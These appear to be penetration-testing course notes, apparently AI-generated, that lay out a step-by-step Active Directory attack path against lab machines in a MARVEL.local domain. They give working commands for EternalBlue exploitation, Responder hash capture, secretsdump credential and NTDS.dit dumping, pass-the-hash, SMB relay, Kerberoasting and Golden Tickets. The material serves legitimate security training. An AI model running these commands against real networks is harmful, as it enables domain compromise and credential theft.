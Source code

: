```yaml
---

## **Comprehensive Breakdown of Active Directory Attack Methodology from Course Notes** 🛡️

Based on your description and drawing upon common Active Directory attack methodologies illustrated in the sources, a potential attack path involving the compromise of user machines 'Punisher' and 'Spiderman' within the MARVEL.local domain can be constructed. However, the sources lack specifics about an attack involving machines with these names. Therefore, this breakdown presents a hypothetical attack scenario based on the provided source information, assuming 'Punisher' and 'Spiderman' are domain-joined machines within the MARVEL.local environment.

---
```


### **Initial Enumeration** 🔍

- **Identifying Machines:** You didn't provide specific commands from the course notes for this step. However, to identify machines like 'Punisher' and 'Spiderman' within a domain environment, common techniques include:
    - **Network Scanning:** 🖥️ Tools like `nmap` can scan IP ranges to discover active hosts. Commands such as `nmap -T4 -A -p- 192.168.164.130` (as seen in source) can provide initial reconnaissance, revealing open ports and services running on those machines.
    - **DNS Enumeration:** 🌐 Tools like `dnsrecon` can enumerate DNS records for the domain, potentially revealing hostnames like 'Punisher' and 'Spiderman' if they are registered in DNS.
- **Gathering Information:**
    - **Vulnerability Scanning:** 🛠️ Running a vulnerability scanner like Nessus can help identify weaknesses on the targeted machines ('Punisher' and 'Spiderman'). Source mentions Nessus identifying an SMBv1 vulnerability.
    - **SMB Enumeration:** 📁 Use tools like `nmap`, `smbclient`, and Metasploit modules to enumerate SMB services and shares on 'Punisher' and 'Spiderman'.
        - Commands like `nmap --script smb-protocols -p445 <IP address>` (source) can reveal the SMB version.
        - `smbclient -L \\\\\\\\<IP address>\\\\` (source) lists available shares.
        - Metasploit's `auxiliary/scanner/smb/smb_version` module (source) confirms the SMB version, essential for identifying exploitable versions like SMBv1.
    - **LDAP Enumeration:** 📜 Tools like **ldapdomaindump** can enumerate users, groups, computers, and policies within the MARVEL.local domain. The source emphasizes running `ldapdomaindump` after compromising a user to gather valuable information for further exploitation.
        - Command: `sudo /usr/bin/ldapdomaindump ldaps://<DC IP> -u 'MARVEL\\\\<username>' -p <password>`.
    - **BloodHound:** 🕵️ Use BloodHound to visually map relationships and privileges in the Active Directory environment. BloodHound analysis helps identify attack paths, including those leading to 'Punisher' and 'Spiderman'. Source suggests using BloodHound to find high-value targets and map privilege escalation paths.
- **Analyzing Outputs:** 📝 Analyze the results to build a profile of 'Punisher' and 'Spiderman'. Identify:
    - Operating systems and versions.
    - Open ports and services.
    - Vulnerable software and versions.
    - User accounts and their privileges on those machines.

---

### **Initial Access** 🔑

- **Exploiting SMBv1 Vulnerability:** 🛠️ Sources strongly suggest leveraging the EternalBlue exploit (MS17-010) to compromise a Windows machine running SMBv1.
    - The process involves using the `exploit/windows/smb/ms17_010_eternalblue` module in Metasploit.
    - **Command Sequence:**
        - `use exploit/windows/smb/ms17_010_eternalblue`
        - `set RHOSTS <target IP>`
        - `set LHOST <your IP>`
        - `set LPORT 4444`
        - `exploit`
- **LLMNR/NBT-NS Poisoning:** 🕸️ You mentioned this technique. The source describes using Responder to capture NTLMv2 hashes through LLMNR/NBT-NS poisoning.
    - Run Responder on the attacker machine: `sudo responder -I tun0 -dwp` or `sudo responder -I eth0 -wPv`.
    - Trigger LLMNR requests by attempting to access a non-existent IP address: `\\\\\\\\<attacker IP>`.
    - Responder captures the NTLMv2 hash, which can be cracked using Hashcat.
- **Credential Stuffing:** 🤖 If credential dumps from other phases reveal common or weak passwords, attempt to use them against accounts on 'Punisher' and 'Spiderman'.

---

### **Post-Exploitation** 🕵️‍♂️

- **Secretsdump:** With initial access on 'Punisher' or 'Spiderman', use `secretsdump.py` to extract additional credentials.
    - **Command Examples:**
        - `secretsdump.py MARVEL.local/fcastle:'Password1'@<target IP>`: Dumps local SAM hashes, cached domain logon info, and LSA secrets.
        - `secretsdump.py <administrator>@<target IP> -hashes <NTLM hash>`: Uses a previously acquired NTLM hash to connect and dump credentials.
- **Mimikatz:** 🗝️ Although not explicitly mentioned, if you gained local access to 'Punisher' or 'Spiderman', Mimikatz could be used to dump credentials from memory.
- **Analyzing Outputs:** 🧩 Carefully examine the output of these tools:
    - **Administrator Hashes:** 🔓 Prioritize cracking these for maximum control.
    - **Cached Credentials:** 🗂️ Look for potentially cached domain admin passwords.
    - **Cleartext Passwords:** 🗝️ Check for LSA Secrets revealing cleartext passwords.

---

### **Lateral Movement** 🚶‍♂️

- **Pass-the-Hash:** 🔄 Use acquired NTLM hashes from 'Punisher' or 'Spiderman' with tools like `secretsdump.py` or `crackmapexec` to authenticate to other machines without needing actual passwords.
- **SMB Relay Attacks:** 🌐 If SMB signing is disabled on other machines, leverage tools like `ntlmrelayx.py` to relay captured credentials and expand access.

---

### **Privilege Escalation** 📈

- **Kerberoasting:** 🔥 Use a tool like [**GetUserSPNs.py**](http://getuserspns.py/) to find service accounts with SPNs in the MARVEL.local domain:
    - **Command:** `sudo GetUserSPNs.py MARVEL.local/<username>:<password> -dc-ip <DC IP>`.
    - Crack the encrypted ticket offline using Hashcat: `hashcat -m 13100 <ticket>.kirbi <wordlist>`.
- **Token Impersonation:** 🕵️‍♀️ If an available high-privilege token is discovered on 'Punisher' or 'Spiderman', impersonate it using Metasploit's `incognito` extension.

---

### **Owning the Domain Controller** 🏆

- **Dumping the NTDS.dit:** 📂 With elevated privileges, use `secretsdump.py` to obtain the `NTDS.dit` file from the domain controller.
    - **Command:** `secretsdump.py MARVEL.local/<username>:<password>@<DC IP> -just-dc-ntlm`.
- **Cracking the Domain Admin Hash:** 🔑 Crack the NTLM hash of the domain administrator account using `hashcat` and a strong wordlist.
- **Golden Ticket Attack:** 🥇 If the domain SID and `krbtgt` hash are obtained, create a Golden Ticket with Mimikatz.

---

### **Sneaky Configurations** 🕵️‍♂️

- **Honey Pots:** 🍯 Be cautious of service accounts with a "\<never\>" LastLogon timestamp, as they might be honey pots.
- **Outdated GPP Files:** 🗃️ Check for vulnerable Group Policy files containing `cPassword` data and exploit them using Metasploit's `smb_enum_gpp` module.

---

### **Summary** 📝

1. **Initial Enumeration:** 🔍 Identify the 'Punisher' and 'Spiderman' machines and gather system information, running services, and potential vulnerabilities.
2. **Initial Access:** 🔑 Exploit a vulnerability like SMBv1 (using EternalBlue) or capture credentials via LLMNR/NBT-NS poisoning.
3. **Post-Exploitation:** 🕵️‍♂️ Use tools like `secretsdump.py` and Mimikatz to extract additional credentials.
4. **Lateral Movement:** 🚶‍♂️ Leverage techniques like Pass-the-Hash and SMB Relay attacks to move across the network.
5. **Privilege Escalation:** 📈 Identify and exploit opportunities for escalation (e.g., Kerberoasting).
6. **Owning the Domain Controller:** 🏆 Dump the `NTDS.dit`, crack the domain admin hash, or create a Golden Ticket.

**Key Points to Remember:** 🧠

- Be aware of traps like honey pots and outdated GPP files.
- The scenario is a general representation; specific commands vary by environment.
- The success of each step depends on the vulnerabilities and configurations present.

---